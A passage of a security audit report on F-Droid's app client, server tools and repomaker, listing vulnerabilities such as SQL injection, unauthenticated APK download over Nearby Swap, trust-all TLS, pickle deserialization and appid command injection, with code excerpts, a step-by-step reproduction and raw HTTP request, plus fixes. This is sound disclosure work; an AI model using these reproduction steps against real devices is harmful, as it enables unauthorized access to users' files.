data/QueryBuilder.java: Lines 67-75 and lines 168-172 data/AppProvider.java: Lines 268, 700, 737, 922, 1058, 1081, 1132, 1178 data/TempApkProvider.java: Line 107 data/ApkProvider.java: Lines 315, 470, data/FdroidProvider.java: Line 146
Response from developer: yeah, these should be tightened so we don't have to trust the server.
Impact:
Corruption in device based DB leading to device compromise
Recommendation:
Use prepared statements for DB query preparation.
Validate the strings with white listing before using in SQL query.
4.1.20 | OTF-020 — Unverified URI redirect |
Vulnerability ID: OTF-020 | |
Vulnerability type: URI redirect | |
Threat level: Moderate |
Description:
App Uses Data From Clipboard for external resource link.
Technical description:
In file
ManageReposActivity.java, when AddRepo action is selected, the public
method onOptionsItemSelected() at line 148 calls showAddRepo(), which
appears to load an http://<> url from clipboard if the clipboard contents look like a URL.
It may be possible for another application to populate the clipboard with malicious URL.
157: private void showAddRepo() { /* * If there is text in the clipboard, and it looks like a URL, use that. * Otherwise use "https://" as default repo string. */ ClipboardCompat clipboard = ClipboardCompat.create(this); String text = clipboard.getText(); String fingerprint = null; String username = null; String password = null; if (!TextUtils.isEmpty(text)) { ... ... 189: text = NewRepoConfig.sanitizeRepoUri(uri); ... ... 287: case DOESNT_EXIST: prepareToCreateNewRepo(url, fp, username, password);
This may be leveraged to change the status and fingerprint of an existing repo (line 653-658).
Utils.debugLog(TAG, "Enabling existing repo: " + url); Repo repo = RepoProvider.Helper.findByAddress(context, url); ContentValues values = new ContentValues(2); values.put(RepoTable.Cols.IN_USE, 1); values.put(RepoTable.Cols.FINGERPRINT, fingerprint); RepoProvider.Helper.update(context, repo, values);
Response from developer:
yeah, I guess this is true. The Add Repo prompt shows the URL it got
from the clipboard. I can't think of another way to defend against this.
Impact:
Malicious redirect and interaction with a remote resource can potentially cause complete device compromise.
Recommendation:
If this feature is not needed, it should be removed.
4.1.21 | OTF-021 — File Deleted Unconditionally |
Vulnerability ID: OTF-021 | |
Vulnerability type: File deletion | |
Threat level: Moderate |
Description:
The application deletes specified file unconditionally if it exists.
Technical description:
In zipio/ZipOutput.java, output file is unconditionally deleted if it exists.
58: private void init( File ofile) throws IOException { if (ofile.exists()) ofile.delete(); out = new FileOutputStream( ofile); if (getLogger().isDebugEnabled()) ZipListingHelper.listHeader( getLogger()); }
Impact:
Denial of service or system if a system critical file is deleted.
Recommendation:
On finding that
the output file exists, the function should return error and let higher
level code handle the error. Alternatively, the code should add a
random suffix to the output file name if the specified file exists.
4.1.22 | OTF-022 — Secure Temp File Usage Recommended |
Vulnerability ID: OTF-022 | |
Vulnerability type: Insecure temp file | |
Threat level: Moderate |
Description:
nanohttpd.java uses insecure temp files
Technical description:
nanohttpd.java
nanohttpd uses
java.io.tmpdir system property as the folder to create temp files. It is
recommended that secure temp files should only be created within a
subfolder of a public, systemwide temp directory.
576: tmpdir = System.getProperty("java.io.tmpdir");
At several places
in the code, the temp files in "tmpdir" are created with random string
with NanoHTTPD- prefix, making the temp file usage somewhat secure.
610: file = File.createTempFile("NanoHTTPD-", "", new File(tempdir)); 1297: private String saveTmpFile(ByteBuffer b, int offset, int len) { String path = ""; if (len > 0) { FileOutputStream fileOutputStream = null; try { TempFile tempFile = tempFileManager.createTempFile(); ByteBuffer src = b.duplicate(); fileOutputStream = new FileOutputStream(tempFile.getName()); 1318: private RandomAccessFile getTmpBucket() { try { TempFile tempFile = tempFileManager.createTempFile(); return new RandomAccessFile(tempFile.getName(), "rw");
The tempfile so created is not restricted in its permissions.
Impact:
Information disclosure, data tampering leading to integrity compromise
Recommendation:
FILE class in
Java allows creation of subdirs, and setting specific permissions on
created files. It is recommended to create the temp files within app
specific subdirectory, for example "Fdroid" under global tmp folder.
This subfolder can be created with restricted permissions for owner
only, to create other temporary files with restricted permissions within
this app-specific folder.
4.1.23 | OTF-023 — (fdroidclient) App Is Signed With `SHA1withRSA`, Known to Have Collision Issues |
Vulnerability ID: OTF-023 | |
Vulnerability type: Cryptography | |
Threat level: Moderate |
Description:
The application was found to be signed with a SHA1withRSA, which is known to have collision issues.
Technical description:
SHA1 with RSA has known collision issues, hence it is not recommended to be used for signing new apps.
Note: If you use
SHA256, the app will no longer work on Android devices < 4.3. This
means that builds made with the new cert system will create APK files
that may not install on some Android 4.0-4.2 devices.
Signer Certificate
[ [ Version: V3 Subject: CN=Ciaran Gultnieks, OU=Unknown, O=Unknown, L=Wetherby, ST=Unknown, C=UK Signature Algorithm: SHA1withRSA, OID = 1.2.840.113549.1.1.5 Key: Validity: [From: Fri Jul 23 22:40:24 IST 2010, To: Tue Dec 08 22:40:24 IST 2037] Issuer: CN=Ciaran Gultnieks, OU=Unknown, O=Unknown, L=Wetherby, ST=Unknown, C=UK SerialNumber: [ 4c49cd00] ] Algorithm: [SHA1withRSA] Signature: 0000: 08 E4 EF 69 9E 98 07 67 7F F5 67 53 DA 73 EF B2 ...i...g..gS.s.. 0010: 39 0D 5A E2 C1 7E 4D B6 91 D5 DF 7A 7B 60 FC 07 9.Z...M....z.`.. 0020: 1A E5 09 C5 41 4B E7 D5 DA 74 DF 28 11 E8 3D 36 ....AK...t.(..=6 0030: 68 C4 A0 B1 AB C8 4B 9F A7 D9 6B 4C DF 30 BB A6 h.....K...kL.0.. 0040: 85 17 AD 2A 93 E2 33 B0 42 97 2A C0 55 3A 48 01 ...*..3.B.*.U:H. 0050: C9 EB E0 7B F5 7E BE 9A 3B 3D 6D 66 39 65 26 0E ........;=mf9e&. 0060: 50 F3 B8 F4 6D B0 53 17 61 E6 03 40 A2 BD DC 34 P...m.S.a..@...4 0070: 26 09 83 97 FD A5 40 44 A1 7E 52 44 54 9F 98 69 &.....@D..RDT..i 0080: B4 60 CA 5E 6E 21 6B 6F 6A 2D B0 58 0B 48 0C A2 .`.^n!koj-.X.H.. 0090: AF E6 EC 6B 46 EE DA CF A4 AA 45 03 88 09 EC E0 ...kF.....E..... 00A0: C5 97 86 53 D6 C8 5F 67 8E 7F 5A 21 56 D1 BE DD ...S.._g..Z!V... 00B0: 81 17 75 1E 64 A4 B0 DC D1 40 F3 04 0B 02 18 21 ..u.d....@.....! 00C0: A8 D9 3A ED 8D 01 BA 36 DB 6C 82 37 22 11 FE D7 ..:....6.l.7"... 00D0: 14 D9 A3 26 07 03 8C DF D5 65 BD 52 9F FC 63 72 ...&.....e.R..cr 00E0: 12 AA A2 C2 24 EF 22 B6 03 EC CE FB 5B F1 E0 85 ....$.".....[... 00F0: C1 91 D4 B2 4F E7 42 B1 7A B3 F5 5D 4E 6F 05 EF ....O.B.z..]No.. ]
Impact:
Signing an app with a weaker algorithm makes it easy for attackers to create a fake cert and sign a malicious app.
Recommendation:
It
is recommended to update to a stronger signing key for this Android
app. The old default RSA 1024-bit key is weak and officially deprecated.
4.1.24 | OTF-024 — (fdroidclient) Raw SQL Query Executions |
Vulnerability ID: OTF-024 | |
Vulnerability type: SQL Injection | |
Threat level: Moderate |
Description:
App uses and executes raw SQL query. An untrusted user input in raw SQL queries can lead to SQL Injection attacks.
Technical description:
The application uses raw SQL query execution in below files:
• | org\fdroid\fdroid\data\AppProvider.java | |
• | org\fdroid\fdroid\data\DBHelper.java | |
• | org\fdroid\fdroid\data\InstalledAppProvider.java | |
• | org\fdroid\fdroid\data\LoggingQuery.java | |
• | org\fdroid\fdroid\data\TempApkProvider.java | |
• | org\fdroid\fdroid\data\TempAppProvider.java |
Example of raw SQL query execution:
DBHelper.java
sQLiteDatabase.rawQuery("UPDATE fdroid_app SET iconUrl = ( SELECT (fdroid_repo.address || CASE WHEN fdroid_repo.version >= ? THEN ? ELSE ? END || fdroid_app.icon) FROM fdroid_apk JOIN fdroid_repo ON (fdroid_repo._id = fdroid_apk.repo) WHERE fdroid_app.id = fdroid_apk.id AND fdroid_apk.vercode = fdroid_app.suggestedVercode ), iconUrlLarge = ( SELECT (fdroid_repo.address || CASE WHEN fdroid_repo.version >= ? THEN ? ELSE ? END || fdroid_app.icon) FROM fdroid_apk JOIN fdroid_repo ON (fdroid_repo._id = fdroid_apk.repo) WHERE fdroid_app.id = fdroid_apk.id AND fdroid_apk.vercode = fdroid_app.suggestedVercode)", new String[]{string4, string2, "/icons/", string4, string3, "/icons/"}); DBHelper.clearRepoEtags(sQLiteDatabase);
Impact:
Executing raw SQL queries with untrusted user input might lead to SQL injection attacks.
Recommendation:
It
is recommended to never use the unvalidated user input inside a SQL
query and execute it. The best way to make sure adversaries will not be
able to inject unsolicited SQL syntax into your queries is to avoid
using SQLiteDatabase.rawQuery() instead opting for a parameterized
statement.
4.1.25 | OTF-025 — (fdroid Client) Snooping in Between Clients in "Nearby Swap" |
Vulnerability ID: OTF-025 | |
Vulnerability type: Malicious Use of Feature | |
Threat level: Moderate |
Description:
The
application's feature Nearby Swap, allows a third person to snoop into
the communication. And download files from either of the two user's
device, without their permission.
Technical description:
Follow steps below:
1. | Install the app on an Android device. | |
2. | Connect to a wifi network and chose the option Nearby Swap | |
3. | Select any app. | |
4. | Now
go to any computer on the same wifi network and scan for all local
devices with port 8888. Or just open the URL shown on mobile device. | |
5. | On the laptop, you will see the fdroid swap default page. | |
6. | Now open the URL http://[mobile device IP]:8888/fdroid/repo/icons/. This page will show the list of applications being shared by this device. | |
7. | If you want to download an apk shortcut file from this device, just modify the URL as http://[mobile device IP]:8888/fdroid/repo/[any_icon_name.apk] |
NOTE: In order to do any of this, you don't need any authorization to be given by the mobile app user.
Request to download any apk
GET /fdroid/repo/com.amazon.mShop.android_4810.apk HTTP/1.1 User-Agent: F-Droid 1.0.3 Host: 192.168.57.33:8888 Connection: close Accept-Encoding: gzip, deflate
Response
HTTP/1.1 200 OK Content-Type: application/vnd.android.package-archive Date: Tue, 27 Mar 2018 12:36:08 GMT ETag: bca3baa2 Content-Length: 320880 Accept-Ranges: bytes Connection: keep-alive Content-Length: 320880 .... [Redacted] ....
Impact:
It
is possible to exploit the Nearby swap feature of fdroid application
and access the Android device's application directory. This can also be
used to download files from the device, without any authorization.
Recommendation:
The
way the feature has been implemented is prone to different attacks. It
is suggested to not directly open a web server and allow everyone to
access. Some authentication should be applied.
4.1.26 | OTF-026 — (fdroid Client) Insecure Implementation of SSL |
Vulnerability ID: OTF-026 | |
Vulnerability type: Transport Layer Security | |
Threat level: Moderate |
Description:
Trusting
all the certificates or accepting self-signed certificates is a
critical Security Hole. This application is vulnerable to MITM attacks.
Technical description:
The application trusts and accepts any SSL certificate and self-signed certificate.
This allows an attacker to capture the application's traffic in a proxy and perform MITM attacks.
The application's code in the file TlsOnlySocketFactory.java shows that the application trusts and accepts any SSL certificate.
It is possible to install an SSL certificate on a device and run the application to capture its traffic on the proxy.
Impact:
This vulnerability makes the application susceptible to man in the middle attacks.
Recommendation:
A better security practice is to include an SSL certificate inside the application build.
Then check and trust only that certificate at runtime. This is known as SSL pinning.
4.1.27 | OTF-027 — (Privilege Extension) Mobile application package signed with weak algorithm `SHA1withRSA` |
Vulnerability ID: OTF-027 | |
Vulnerability type: Cryptography | |
Threat level: Moderate |
Description:
SHA1withRSA, which is known to have collision issues, has been used to sign the application package.
Technical description:
SHA1 was used by
default in APK signing for a few years. A attacker might be able to
create an APK with his/her malicious code,
and identical SHA1 digest of your genuine files. Devices that had
previous version will consider the crafted APK to be signed by your
certificate,
and issue no warning when installing it.
Note: If you use
SHA256, the app will no longer work on Android devices < 4.3. This
means that builds made with the new cert system will create APK files
that may not install on some Android 4.0-4.2 devices.
Signer Certificate
[ [ Version: V3 Subject: CN=Ciaran Gultnieks, OU=Unknown, O=Unknown, L=Wetherby, ST=Unknown, C=UK Signature Algorithm: SHA1withRSA, OID = 1.2.840.113549.1.1.5 Key: Validity: [From: Fri Jul 23 22:40:24 IST 2010, To: Tue Dec 08 22:40:24 IST 2037] Issuer: CN=Ciaran Gultnieks, OU=Unknown, O=Unknown, L=Wetherby, ST=Unknown, C=UK SerialNumber: [ 4c49cd00] ] Algorithm: [SHA1withRSA] Signature: 0000: 08 E4 EF 69 9E 98 07 67 7F F5 67 53 DA 73 EF B2 ...i...g..gS.s.. 0010: 39 0D 5A E2 C1 7E 4D B6 91 D5 DF 7A 7B 60 FC 07 9.Z...M....z.`.. 0020: 1A E5 09 C5 41 4B E7 D5 DA 74 DF 28 11 E8 3D 36 ....AK...t.(..=6 0030: 68 C4 A0 B1 AB C8 4B 9F A7 D9 6B 4C DF 30 BB A6 h.....K...kL.0.. 0040: 85 17 AD 2A 93 E2 33 B0 42 97 2A C0 55 3A 48 01 ...*..3.B.*.U:H. 0050: C9 EB E0 7B F5 7E BE 9A 3B 3D 6D 66 39 65 26 0E ........;=mf9e&. 0060: 50 F3 B8 F4 6D B0 53 17 61 E6 03 40 A2 BD DC 34 P...m.S.a..@...4 0070: 26 09 83 97 FD A5 40 44 A1 7E 52 44 54 9F 98 69 &.....@D..RDT..i 0080: B4 60 CA 5E 6E 21 6B 6F 6A 2D B0 58 0B 48 0C A2 .`.^n!koj-.X.H.. 0090: AF E6 EC 6B 46 EE DA CF A4 AA 45 03 88 09 EC E0 ...kF.....E..... 00A0: C5 97 86 53 D6 C8 5F 67 8E 7F 5A 21 56 D1 BE DD ...S.._g..Z!V... 00B0: 81 17 75 1E 64 A4 B0 DC D1 40 F3 04 0B 02 18 21 ..u.d....@.....! 00C0: A8 D9 3A ED 8D 01 BA 36 DB 6C 82 37 22 11 FE D7 ..:....6.l.7"... 00D0: 14 D9 A3 26 07 03 8C DF D5 65 BD 52 9F FC 63 72 ...&.....e.R..cr 00E0: 12 AA A2 C2 24 EF 22 B6 03 EC CE FB 5B F1 E0 85 ....$.".....[... 00F0: C1 91 D4 B2 4F E7 42 B1 7A B3 F5 5D 4E 6F 05 EF ....O.B.z..]No.. ]
Impact:
Signing
an app with a weaker algorithm makes it easy for attackers to create a
malicious application package similar to original and sign it with a
fake cert.
Recommendation:
It
is recommended to update to a stronger signing key for this Android
app. The old default RSA 1024-bit key is weak and officially deprecated.
SHA256 is a better algorithm to use
4.1.28 | OTF-028 — Tabnabbing in Repomaker |
Vulnerability ID: OTF-028 | |
Vulnerability type: Tabnabbing | |
Threat level: Low |
Description:
Malicious target site opened from repomaker can manipulate the page that opened it.
Technical description:
The opened page gets access to the opening pages window.opener object, allowing to inject javascript or changing it's location.
Locations
The following one is probably low risk as the domain is under clients control
repomaker/templates/repomaker/repo_page/index.html 9: <a href="https://f-droid.org" target="_blank">Get F-Droid</a> 24: <a href="https://f-droid.org" target="_blank" class="rm-no-underline"> 42: target="_blank"> 47: target="_blank">
The following seems medium risk, as the domain is possibly under attacker control.
repomaker/templates/repomaker/repo/index_share.html 36: <a href="" class="rm-repo-share-general-view" target="_blank"> 58: <a href="/assets/qr_code.html" class="rm-repo-share-add-scan" target="_blank"> 70: target="_blank"> 74: target="_blank">
more info
Impact:
Low: Phishing
Recommendation:
Use rel="noopener" when using target="_blank"
4.1.29 | OTF-029 — Repomaker:apk:_def_get_type Allows for Mime Type Mismatches |
Vulnerability ID: OTF-029 | |
Vulnerability type: Malicious File Upload | |
Threat level: Low |
Description:
Insufficient checking of file types can lead to upload of malicious code.
Technical description:
In ../code/repomaker/repomaker/models/apk.py:183 the code checks for mime-types using file(1)
mechanisms, but fails to enforce extension matching with the file type.
Simple polyglot files can be stored in the repo matching
video/audio/image mime class, yet containing scripts used in later
stages of attacks.
Furthermore if .py is not allowed in the same function in line 198, then .pyc and .pyo should also be forbidden:
# TODO add more types if ext.startswith('.php') or ext == '.py' or ext == '.pl' or ext == '.cgi': raise ValidationError(_('Unsupported File Type'))
also .js should not be allowed.
Impact:
Low: Staging of malicious code, needs another vulnerability to trigger
Recommendation:
Check if the mime type matches the extension.
Use a white-list instead of a blacklist of extensions.
4.1.30 | OTF-030 — Unsafe HTML Rendering of Arbitrary Input |
Vulnerability ID: OTF-030 | |
Vulnerability type: Code Execution | |
Threat level: Low |
Description:
Unsafe
use of the DatalistTextInput can lead to javascript injection in
Repomaker. However this widget is currently only used to select
predefined list of languages. However if in the future this widget is
used to render unsanitized user input it can be easily exploited.
Technical description:
In ../code/repomaker/repomaker/views/init.py the DataListTextInput render() function could be used to inject javascript:
class DataListTextInput(TextInput): def __init__(self, data_list, *args, **kwargs): ... self._list = data_list def render(self, name, value, attrs=None, renderer=None): self.attrs.update({'list': 'list__%s' % name}) text_html = super().render(name, value, attrs, renderer) data_list = '<datalist id="list__%s">' % name for item in self._list: data_list += '<option value="%s">%s</option>' % (item[0], item[1]) data_list += '</datalist>' return text_html + data_list
But this class is only instantiated in one place, views/app.py as shown:
self.fields['lang'] = CharField(required=True, min_length=2, widget=DataListTextInput(settings.LANGUAGES))
This limits the impact to negligible, but if this input widget gets used in other parts of the code care should be taken.
Recommendations:
Impact:
Low: cannot be currently exploited, but future use of this function could be exploitable.
Recommendation:
clean the name and data_list contents before rendering.
4.1.31 | OTF-031 — Dangerous Deserialization Using Python Pickle in Fdroidserver:update.py |
Vulnerability ID: OTF-031 | |
Vulnerability type: Dangerous Function | |
Threat level: Low |
Description:
The dangerous python
module pickle is being used to store and load a cache. On its own this
is not exploitable, but when an attacker has can write files, then this
can be escalated into a code execution vulnerability.
Technical description:
update.py uses the dangerous pickle module in get_cache().
Although it is only written by write_cache(), if an attacker has a
write file primitive it is possible to achieve code execution on the
target.
excerpt from update.py:463
with open(apkcachefile, 'rb') as cf: apkcache = pickle.load(cf, encoding='utf-8') if apkcache.get("METADATA_VERSION") != METADATA_VERSION \ or apkcache.get('allow_disabled_algorithms') != ada:
Recommendation: avoid pickle and save the dictionary using JSON.
Impact:
Low: needs a write files vulnerability to escalate into a code execution vulnerability
Recommendation:
Avoid the usage of the python pickle module
4.1.32 | OTF-032 — Starting a Process With a Partial Executable Path |
Vulnerability ID: OTF-032 | |
Vulnerability type: Execution without path | |
Threat level: Low |
Description:
All external programs that are called by fdroidserver depend on the correct executable to be first found in the $PATH
environment variable. If an attacker is able to place their own
executable on a path before the legit executable that can lead to
adversarial code execution.
Technical description:
fdroidserver calls external executables without a path. This is an
issue in case an attacker can write an executable on a $PATH before the
genuine executable.
Location: ./docker/install_agent.py:10 call("adb wait-for-device", shell=True)
Location: ./docker/install_agent.py:22 output = check_output('adb shell "pm list packages"', shell=True)
Location: ./docker/install_agent.py:36 install_output = check_output("adb install /home/drozer/drozer-agent.apk", shell=True)
Location: ./docker/install_agent.py:47 pm_list_output = check_output('adb shell "pm list packages"', shell=True)
Location: ./docker/install_agent.py:56 call('adb shell "am start com.mwr.dz/.activities.MainActivity"', shell=True, stdout=FNULL)
Location: ./docker/install_agent.py:60 call("python /home/drozer/enable_service.py", shell=True, stdout=FNULL)
Location: ./docker/install_agent.py:63 call("adb forward tcp:31415 tcp:31415", shell=True, stdout=FNULL)
Location: ./fdroidserver/build.py:80 buildserverid = subprocess.check_output(['vagrant', 'ssh', '-c', 'cat /home/vagrant/buildserverid'], cwd='builder').rstrip().decode()
Location: ./fdroidserver/build.py:108 subprocess.check_output(['rsync', '--recursive', '--perms', '--links', '--quiet', '--rsh=' + 'ssh -o StrictHostKeyChecking=no' + ' -o UserKnownHostsFile=/dev/null' + ' -o LogLevel=FATAL' + ' -o IdentitiesOnly=yes' + ' -o PasswordAuthentication=no' + ' -p ' + str(sshinfo['port']) + ' -i ' + sshinfo['idfile'], path, sshinfo['user'] + "@" + sshinfo['hostname'] + ":" + ftp.getcwd()], stderr=subprocess.STDOUT)
Location: ./fdroidserver/build.py:137 fp.write(subprocess.check_output(['git', 'rev-parse', 'HEAD'], cwd=serverpath))
Location: ./fdroidserver/build.py:851 subprocess.call(['jar', 'uf', os.path.abspath(src), 'META-INF/' + fn], cwd=tmp_dir)
Location: ./fdroidserver/common.py:2701 if subprocess.call(['jar', 'xf', os.path.abspath(apk1)], cwd=os.path.join(apk1dir, 'jar-xf')) != 0:
Location: ./fdroidserver/common.py:2705 if subprocess.call(['jar', 'xf', os.path.abspath(apk2)], cwd=os.path.join(apk2dir, 'jar-xf')) != 0:
Location: ./fdroidserver/mirror.py:36 subprocess.call(['wget', verbose, '--continue', '--user-agent="fdroid mirror"', '--input-file=' + urls_file])
Location: ./fdroidserver/nightly.py:63 subprocess.check_call(['openssl', 'pkcs12', '-in', p12, '-out', key_pem, '-passin', 'pass:' + PASSWORD, '-passout', 'pass:' + PASSWORD]) subprocess.check_call(['openssl', 'rsa', '-in', key_pem, '-out', privkey,
Location: ./fdroidserver/nightly.py:263 subprocess.check_call(['ssh', '-Tvi', ssh_private_key_file, '-oIdentitiesOnly=yes', '-oStrictHostKeyChecking=no', servergitmirror.split(':')[0]])
Location: ./fdroidserver/nightly.py:281 subprocess.check_call(['fdroid', 'update', '--rename-apks', '--create-metadata', '--verbose'], cwd=repo_basedir)
Location: ./setup.py:23 version_git = subprocess.check_output(['git', 'describe', '--tags', '--always']).rstrip().decode('utf-8')
Location: ./setup.py:57 subprocess.check_call(['pandoc', '--from=markdown', '--to=rst', 'README.md', '--output=README.rst'], universal_newlines=True)
Location: ./fdroidserver/stats.py:163 p = subprocess.Popen(["zcat", logfile], stdout=subprocess.PIPE)
Location: ./fdroidserver/nightly.py:287 subprocess.check_call(['fdroid', 'server', 'update', '--verbose'], cwd=repo_basedir)
Impact:
Impact: Difficult to trigger, but then possibly high impact due to code execution.
Recommendation:
Establish
a list of all good paths once (during installation), store it in a file
with secure permissions and use this to call the external programs.
4.1.33 | OTF-033 — Maliciously Crafted Appid Code Injection in Fdroidserver Build.py |
Vulnerability ID: OTF-033 | |
Vulnerability type: Code Execution | |
Threat level: Low |
Description:
Maliciously
crafted appids can be used for code injection. However in this case the
code injection is happening in the build VM, where other attacker
controlled code is executed willingly.
Technical description:
In fdroidservers build.py there is an unsafe handling of appids on the buildserver:
excerpt from ./fdroidserver/build.py:217:
cmdline += " %s:%s" % (app.id, build.versionCode) chan.exec_command('bash --login -c "' + cmdline + '"')
This is similar to
the code injection in drozer.py. However this is probably confined to
the build VM and thus not significant, as the (maven,gradle, etc)
buildscripts also have inherently code execution capabilities.
Impact:
Low: This is confined to the build VM, in which the build scripts have code execution anyway.
Recommendation:
Validate appids.
4.1.34 | OTF-034 — Missing file type and size validation |
Vulnerability ID: OTF-034 | |
Vulnerability type: Arbitrary file in response | |
Threat level: Low |
Description:
BluetootheServer.java: File included in Response Without Size or Type Check
Technical description:
In file
net/bluetooth/BluetoothServer.java, Bluetooth device prepares to send a
file on BT socket without file size limit and file content format
verification.
Lines 275-303: 275: long fileLen = file.length(); ... ... 291: final long dataLen = newLen; 292: FileInputStream fis = new FileInputStream(file) { ... ... 303: res = createResponse(NanoHTTPD.Response.Status.PARTIAL_CONTENT, mime, fis);
Impact:
Malicious file may be injected into an unsuspecting user's device, enabling attacker to exploit another vector.
Recommendation:
Only allow certain types of files to be transmitted (whitelisting) if possible.
Limit the size of file to be transmitted, and warn the user for large files.
4.1.35 | OTF-035 — Hardcoded root CA keys |
Vulnerability ID: OTF-035 | |
Vulnerability type: Hardcoded keys | |
Threat level: Low |
Description:
No Mechanism to Remove hardcoded Root CA Keys
Technical description:
In file
fdroid/FDroidCertPins.java, the class FDroidCertPins defines default
pinned root CA, and uses it for initialization, but does not provide a
run-time removal of the keys. The only way to remove a root CA key is to
build a new Fdroid client with modified list of keys.
Impact:
Data integrity compromise using older keys which may have expired or revoked.
Recommendation:
Provide key revocation list check. Alternatively, list the root CA keys in a separate file which can be updated independently.
4.1.36 | OTF-036 — Use of weak methods for data protection |
Vulnerability ID: OTF-036 | |
Vulnerability type: Weak data protection | |
Threat level: Low |
Description:
Use of ROT13 and Base64 Encoding
Technical description:
Provisioner.java uses rot13 + base64 encoding for obfuscation. Obfuscation is not a security feature.
Response from developer:lol, yup, ROT13 is just meant to "dissuade" people from trying to get those keys.
Impact:
False sense of security
Recommendation:
If the data being protected is sensitive, stronger encryption methods should be used.
4.1.37 | OTF-037 — Untrusted External Links |
Vulnerability ID: OTF-037 | |
Vulnerability type: Unverified remote resources | |
Threat level: Low |
Description:
External links used without validation
Technical description:
In file
RepoXMLHandler.java, several description items of a repo or app are
externally sourced - such as icon, bitcoin wallet, litecoin wallet and
donate link. A seemingly harmless app hosted in Fdroid can be used to
guide a willing but unsuspecting donor to malicious sites.
Response from developer:Since there is a human review
of those URLs, and those URLs are committed to git, we have left those
to be open without validation. There are also other URLs like home page,
issue tracker, etc. I suppose we should show the full URL in the UI if
they don't match a well known pattern.
Impact:
User may be lured
to visit malicious web sites/ resources which can lead to social
engineering attacks as well as malware installation.
Recommendation:
Documented
manual review of external links before accepting a MR/PR/update/patch
should be in place, and warning should be displayed to user when they
click on the external links.
4.1.38 | OTF-038 — Weak pattern matching filter |
Vulnerability ID: OTF-038 | |
Vulnerability type: Weak regular expression | |
Threat level: Low |
Description:
Regular expression used for filtering file name entries in zipsigner appears to be permissive.
Technical description:
In zipio/ZipInput.java file, regular expression for file name entries in zipsigner appears to be permissive.
if (path.startsWith("/")) path = path.substring(1); Pattern p = Pattern.compile( String.format("^%s([^/]+/?).*", path));
Only '/'
character appears to be disallowed. This can be strengthened to not
allow special characters such as semi colon, pipe, quotes etc.
Impact:
Potentially, a file name with special characters can trigger OS command injection.
Developer response:
I get your concern for other platforms, but shell scripts and exec
calls are relatively rare in Android/Java space. The zip library is
doing the right thing in terms of handling all valid filenames. So I
think this is a hypothetical issue that would apply if some unsafe code
did something with the ZIP file.
Recommendation:
Regular
expression pattern should be strengthened to not allow special
characters such as semi colon, pipe, quotes etc. to avoid OS command
injection attacks.
4.2 | Non-Findings |
In this section we list some of the things that were tried but turned out to
be dead ends.
4.2.1 | (fdroid Client) Exploiting the Local Web Server of "Nearby Swap" to Navigate Directories |
Tries multiple ways to navigate to local directories and files using the requests to HTTP server opened by Nearby Swap feature.
Apart from icons/ directory, no other directories were accessible.
4.2.2 | (fdroid Client) Exploiting Exported Activities and Broadcasts |
Attempts were made to
exploit the exported component of the application, but no exploitable
vulnerability was discovered. Exported components:
org.fdroid.fdroid.views.ManageReposActivity,
org.fdroid.fdroid.AppDetails2,
org.fdroid.fdroid.privileged.install.InstallExtensionBootReceiver,
org.fdroid.fdroid.receiver.StartupReceiver,
org.fdroid.fdroid.receiver.PackageManagerReceiver,
org.fdroid.fdroid.receiver.WifiStateChangeReceiver
4.2.3 | (Privilege Extension) Static Analysis of APK |
No vulnerabilities
were discovered in the static analysis of the apk. Static analysis tests
for hardcoded critical information, local storage, logging etc.
Pentest Technical Summary •
Future Work •
6 | Conclusion |
Some issues were
found in repomaker, however the impact of those are limited by the way
repomaker is used. A few significant issues were found in fdroidserver,
allowing running code in the build VM, in the fdroid host, and in the
browsers of users. These issues are either from quite old code, or from
new experimental code. Despite this there is signs of attempting to
harden fdroidserver and to deploy defense-in-depth, this is commendable.
The defensive mindset is a great asset, keep it up.
Similarly, code
audit of Fdroid client/app code and 3rd party dependencies also reveals
some high impact and many moderate impact issues which need to be fixed.
A few issues, such as use of TOFU and repo-swap features need a
redesign for mitigation of the vulnerability.
Significant
exploitable issues were reported in Fdroid client pen-test leading to
false trust and malicious app installation, along with redirect to
malicious sites.
We conclude that
given the large number of issues reported, some of which are design
issues, Fdroid team should significantly improve the security of Fdroid
software (server, repomaker and app) on a high priority.
Conclusion •
Appendix 1 | Testing team |
Stefan Marsiske | Stefan
runs workshops on radare2, embedded hardware, lock-picking, soldering,
gnuradio/SDR, reverse-engineering, and crypto topics. In 2015 he scored
in the top 10 of the Conference on Cryptographic Hardware and Embedded
Systems Challenge. He has run training courses on OPSEC for journalists
and NGOs.
|
Abhinav Mishra | When
he hacked the first application while doing his engineering graduation,
back in 2009 ... he thought, this is cool.
Now it has been 6+ years and Abhinav has been involved in
hacking web, mobile and networks as a penetration tester.
Together with numerous accolades from multiple
organization, for responsible disclosures of vulnerabilities.
He is also a part of Synack Red Team and Cobalt core
team. Has performed 100+ web, 50+ mobile applications and numerous
network penetration tests. |
Mahesh Saptarshi | Director,
cyberSecurist Technologies. Mahesh is passionate about software
security defences. He has performed a large number of pentests of
enterprise, web and mobile applications. He has several US patents in
the area of high availability and virtual machines technology. |
Melanie Rieback | Melanie Rieback is a former Asst. Prof. of Computer Science from the
VU, who is also the co-founder/CEO of Radically Open Security. |
Testing team •